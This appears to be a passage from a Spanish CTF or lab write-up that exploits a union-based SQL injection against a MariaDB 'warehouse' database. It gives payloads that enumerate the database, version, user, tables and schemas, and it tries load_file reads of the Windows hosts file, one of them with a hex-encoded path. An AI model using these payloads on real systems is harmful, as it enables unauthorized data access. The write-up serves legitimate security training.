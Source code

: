 1. Aplicamos el union select

    ```bash
    [+] Payload : ' union select 1,2,3,4,5,6-- -
    ```

    Vemos que se estan colandos la etiquetas

1. Listamos la base de datos actual en uso y el usuario

    ```bash
    [+] Payload : ' union select 1,2,database(),4,5,6-- -
    [+] Payload : ' union select 1,2,version(),4,5,6-- -
    [+] Payload : ' union select 1,2,user(),4,5,6-- -
    ```

    La base de datos se llama warehouse de typo MariaDB version 10.4.8 y el usuario manager@localhost

1. Miramos si podemos leer archivos de la maquina victima

    ```bash
    [+] Payload : ' union select 1,2,load_file("C:\Windows\System32\drivers\etc\hosts"),4,5,6-- -
    [+] Payload : ' union select 1,2,load_file("Windows\System32\drivers\etc\hosts"),4,5,6-- -
    [+] Payload : ' union select 1,2,load_file("0x433a5c57696e646f77735c53797374656d33325c647269766572731b74635c686f737473"),4,5,6-- -
    ```

    Parece que no podemos leer ficheros del systema.

    > [ ! ] NOTAS: el hexadecimal se hace con el comando
    >
```bash
 echo "C:\Windows\System32\drivers\etc\hosts" | tr -d '\n' | xxd -ps | xargs | tr -d ' ' 
```

1. Enumeramos las tablas existentes de la base de datos

    ```bash
    [+] Payload : ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="warehouse"-- -
    ```

    Vemos que hay una tabla product, product_category y product_pack. No parece que haya informacion relevante.

1. Enumerar las bases de datos del systema

    ```bash
    [+] Payload : ' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
    ```

    Hay 3 bases de datos information_schema, mysql y warehouse.

1. Enumeramos la base de datos mysql

    ```bash
    [+] Payload : ' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="mysql"-- -
    ```
